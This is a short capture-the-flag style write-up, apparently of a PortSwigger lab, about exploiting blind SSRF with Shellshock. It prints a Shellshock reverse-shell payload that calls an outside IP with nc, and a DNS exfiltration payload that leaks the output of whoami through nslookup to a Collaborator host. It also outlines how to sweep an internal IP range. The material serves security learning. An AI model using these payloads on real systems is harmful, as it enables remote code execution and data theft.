

Simply identifying a blind [SSRF vulnerability](https://portswigger.net/web-security/ssrf) that can trigger out-of-band HTTP requests doesn't in itself provide a route to exploitability. Since you cannot view the response from the back-end request, the behavior can't be used to explore content on systems that the application server can reach. However, it can still be leveraged to probe for other vulnerabilities on the server itself or on other back-end systems. You can blindly sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server.

Another avenue for exploiting blind SSRF vulnerabilities is to induce the application to connect to a system under the attacker's control, and return malicious responses to the HTTP client that makes the connection. If you can exploit a serious client-side vulnerability in the server's HTTP implementation, you might be able to achieve remote code execution within the application infrastructure.

## Challenge

--> In this challenge we have to use shellshock payload and get the result of `whoami` by running the exploit internally on `http://192.68.0.x:8080` range

So first i searched about shellshock payload and after reading some docs i found this payload which will get us the reverse shell !

```
() { :; }; /bin/bash -c ‘nc 192.168.234.166 1337 -e /bin/sh’
```

But we can't get reverse shell because this website will only respond to burp collaborator's requests so we have to use something like `nslookup` and after searching i found this payload:

```
() { :;}; nslookup ${whoami}.laz1klz1e1s4rz9hvknib7s5owuoid.burpcollaborator.net
```

Resources:

- https://github.com/opsxcq/exploit-CVE-2014-6271
- https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf
- https://www.exploit-db.com/docs/48112

--> And also we will add this in `referrer` header

```
http://192.168.0.0:8080
```

--> Now we will run the intruder attack for this ip and keep doing `poll now` in collaboartor client


And after running attack i found the username in lookup request.



And we solved the lab!
